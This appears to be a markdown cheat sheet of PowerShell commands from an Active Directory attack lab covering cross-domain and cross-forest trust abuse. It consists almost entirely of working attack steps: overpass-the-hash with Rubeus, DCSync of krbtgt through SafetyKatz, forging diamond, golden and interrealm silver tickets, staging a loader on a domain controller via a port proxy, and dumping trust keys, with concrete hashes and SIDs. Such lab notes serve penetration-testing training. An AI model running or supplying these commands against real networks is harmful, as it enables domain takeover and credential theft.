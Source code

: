 
##### Cross domain
OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Forge golden ticket to access parent domain DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e /domain:moneycorp.local /sid:S-1-5-21-335606122-960912869-3279953914 /ldap /user:Administrator /printcmd
```

Run displayed command and add `/ptt`
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args <argumnets> /ptt
```

##### Cross external trusts 

OPtH and obtain trust key
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```

Create interrealm ticket - `sid` = current domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:0198d3872de6e6c0978af7ebe2d8d495 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```

> **Note:** Can only access resources that were explicitly shared with you

Import ticket to access shared resources
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:<FORGED TICKET>
```

View resources
```powershell
net view \\eurocorp-dc.eurocorp.LOCAL

dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

